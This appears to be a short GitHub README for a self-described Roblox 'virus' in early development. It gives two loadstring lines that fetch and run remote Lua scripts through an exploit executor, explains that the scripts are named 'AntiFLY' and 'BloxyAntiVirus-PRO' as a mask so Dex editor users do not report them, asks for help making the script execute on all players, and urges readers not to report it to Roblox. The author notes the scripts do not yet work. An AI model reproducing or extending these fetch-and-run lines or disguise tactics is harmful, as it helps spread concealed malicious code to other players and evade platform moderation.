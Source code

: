 Roblox-virus

Hello! , this is a roblox virus,
but is the Initial-Prelease ,
and please help me in the virus developing

How to use?
Copy in your exploit the loadstring :
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END-RoJack-/main/BloxyAntiVirus-PRO.lua'), game.ReplicatedFirst)
and
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END/main/AntiFLY.Lua'), game.ReplicatedFirst)

(WARNING, SCRIPTS DOES NOT WORKS BECAUSE IM SEARCHING THE BEST SCRIPT INIT , PLEASE WAIT)
(and the "AntiFLY" and "BloxyAntiVirus-PRO" is the mask of the virus, which makes no one with the Dex editor report this to roblox)
(And i need help to make that script executes on all players  )

AND PLEASE DO NOT FEEDBACK THIS TO ROBLOX OR I WOULD BE BREACHING MY AGREEMENT
